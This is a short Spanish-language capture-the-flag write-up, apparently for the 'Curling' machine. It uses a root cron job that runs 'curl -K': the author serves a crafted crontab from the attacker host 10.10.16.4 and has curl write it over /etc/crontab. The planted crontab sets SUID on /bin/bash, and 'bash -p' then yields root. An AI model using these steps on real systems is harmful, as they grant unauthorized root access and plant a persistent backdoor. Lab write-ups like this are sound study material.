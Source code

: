 ##### Enumeracion
Ejecutamos el [[PSPY]]
![[Curling18.png]]
Vemos en el PID 2872 el curl que manda con el parametro `curl -K`, que sirve para especificar la configuracion mediante un archivo.    [[curl]]

##### Explotacion
Vamos a crear un archivo exploit en un nuestra maquina
```
SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin

* * * * * root chmod u+s /bin/bash
```
Vamos a abrir un server con [[python3 -m http.server]]

Contenido del archivo input
```
url = "http://10.10.16.4/exploit"              // En donde esta el 10.10.16.4 va nuestra ip de atacante y despues del / va el nombre del archivo
output = "/etc/crontab"
```

Ahora cuando se ejecute la tarea cron, va a hacer que la bash tenga permisos SUID
![[Curling19.png]]
Una vez que vemos la s, ya sabemos que podemos ejecutar `bash -p` para ganar permisos en la bash
![[Curling20.png]]
Ya estamos logeados como root, asi que podemos visualizar la flag